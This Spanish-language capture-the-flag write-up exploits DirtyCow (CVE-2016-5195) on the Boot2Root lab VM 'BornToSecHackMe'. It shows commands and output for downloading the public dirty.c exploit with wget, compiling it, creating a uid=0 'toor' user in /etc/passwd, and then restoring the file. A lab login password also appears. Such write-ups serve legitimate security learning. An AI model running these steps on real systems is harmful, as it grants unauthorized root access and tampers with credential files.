

# Writeup 2 - Vulnerabilidad DirtyCow

## Índice:

- [¿Qué es DirtyCow?](#qué-es-dirtycow)
- [1. Verificamos que el kernel es vulnerable.](#1-verificamos-que-el-kernel-es-vulnerable)
- [2. Búsqueda GCC](#2-búsqueda-gcc)
- [3. Obtención del exploit](#3-obtención-del-exploit)
- [4. Descarga e instalación DirtyCow](#4-descarga-e-instalación-dirtycow)
- [5. Ejecutamos el Exploit](#5-ejecutamos-el-exploit)
- [6. Restauramos](#6-restauramos)

## ¿Qué es DirtyCow?

**DirtyCow (CVE-2016-5195)** es una vulnerabilidad del kernel Linux descubierta en 2016. Su nombre viene de *"Dirty Copy-On-Write"*.

Es un bug en el mecanismo que usa el kernel para gestionar la memoria cuando múltiples procesos acceden al mismo recurso.

Esto quiere decir, que permite a un usuario **sin privilegios** escribir en zonas de memoria de solo lectura, incluyendo archivos del sistema como **`/etc/passwd`** Y nos permitirá escalar privilegios a root.

La VM corre un kernel antiguo de 2015 por lo tanto:  **Es vulnerable**.

## Explotación

## 1. Verificamos que el kernel es vulnerable.

Nos conectamospor ssh como el usuario `Laurie` y verificamos si el kernel es vulnerable:

- password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

```bash
ssh laurie@192.168.0.30
ssh: connect to host 192.168.0.30 port 22: No route to host
davgalle@davgalle-Latitude-5400:~/Documents/RNCP7/boot2root$ ssh laurie@192.168.0.35
The authenticity of host '192.168.0.35 (192.168.0.35)' can't be established.
ECDSA key fingerprint is SHA256:d5T03f+nYmKY3NWZAinFBqIMEK1U0if222A1JeR8lYE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:215: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.35' (ECDSA) to the list of known hosts.
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.0.35's password: 
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
laurie@BornToSecHackMe:~$ 
```

**kernel 3.2.0-91** de 2015. Es vulnerable a DirtyCow sin ninguna duda.

## 2. Búsqueda GCC

Ahora vamos a ver si `gcc` está disponible en la VM:
```bash
laurie@BornToSecHackMe:~$ which gcc
/usr/bin/gcc
laurie@BornToSecHackMe:~$ gcc --version
gcc (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
Copyright (C) 2011 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

laurie@BornToSecHackMe:~$ 
```

**gcc disponible** -> version `gcc (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3`

Por lo tanto ya tenemos todo lo que necesitamos.

## 3. Obtención del exploit

**DirtyCow** tiene varios exploits públicos. El más común para escalada de privilegios modifica `/etc/passwd` directamente para añadir un nuevo usuario con uid=0.

Buscamos en internet el exploit `dirty.c`. La busqueda clave es:
```text
dirtycow exploit dirty.c github
```



**Enlace repo de GitHub: https://github.com/firefart/dirtycow/blob/master/dirty.c**

Este que hemos encontrado es el exploit más conocido y documentado de DirtyCow. Es el de `firefart` y es perfecto para este caso porque:

- Modifica /etc/passwd para crear un usuario toor con uid=0
- Hace backup automático en /tmp/passwd.bak
- Se compila con un solo comando
- Es reversible. Podemos restaurar `/etc/passwd` después

Una vez que lo hemos encontrado necesiytamos transferirlo a la VM y para ellos comprobamos si disponemos de `wget` o `curl` para descarfarlo directamente:

```bash
laurie@BornToSecHackMe:~$ which wget
/usr/bin/wget
laurie@BornToSecHackMe:~$ which curl
/usr/bin/curl
laurie@BornToSecHackMe:~$ 
```

## 4. Descarga e instalación DirtyCow

Ahora lo descargamos directaente en la VM:
```text
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
```

```bash
laurie@BornToSecHackMe:~$ wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
--2026-04-27 19:06:06--  https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
WARNING: cannot verify raw.githubusercontent.com's certificate, issued by `/C=US/O=Let\'s Encrypt/CN=R12':
  Unable to locally verify the issuer's authority.
HTTP request sent, awaiting response... 200 OK
Length: 4795 (4.7K) [text/plain]
Saving to: `/tmp/dirty.c'

100%[====================================================================================================================================================>] 4,795       --.-K/s   in 0s      

2026-04-27 19:06:07 (22.3 MB/s) - `/tmp/dirty.c' saved [4795/4795]
```

Una vez descargado lo compilamos.
```bash
gcc -pthread /tmp/dirty.c -o /tmp/dirty -lcrypt
```

## 5. Ejecutamos el Exploit

Hacto seguido lo ejecutamos con una contraseña nueva.
```bash
/tmp/dirty toor
```

Esperamos a que termine. Esta operación suele tardar varios minutos dependiedo de la carga del sistema.
```bash
laurie@BornToSecHackMe:~$ /tmp/dirty toor
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: toor
Complete line:
toor:to5bce5sr7eK6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ 
```

Una vezi que ha terminado comprobamos si hemos tenido éxito y escalamos privilegios:

- Usuario: toor
- Password: toor
```bash
laurie@BornToSecHackMe:~$ su toor
Password: 
toor@BornToSecHackMe:/home/laurie# whoami
toor
toor@BornToSecHackMe:/home/laurie# id
uid=0(toor) gid=0(root) groups=0(root)
toor@BornToSecHackMe:/home/laurie# 
```
## **ROOT conseguido con DirtyCow. uid=0 (privilegios de root).**

## 6. Restauramos

Ahora restaura /etc/passwd tal y como hemos descritp en el exploit:
```bash
toor@BornToSecHackMe:/home/laurie# mv /tmp/passwd.bak /etc/passwd
toor@BornToSecHackMe:/home/laurie# 
```

Y `/etc/passwd` queda restaurado y comprobamos que así es:
```bash
toor@BornToSecHackMe:/home/laurie# cat /etc/passwd | grep toor
toor@BornToSecHackMe:/home/laurie# 
```
Vemos que solo aparecen las líneas originales.
```bash
toor@BornToSecHackMe:/home/laurie# grep root /etc/passwd
root:x:0:0:root:/root:/bin/bash
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
```

Si ahora intentamos hacer `su toor` de nuevo en una nueva sesión ya no funcionará.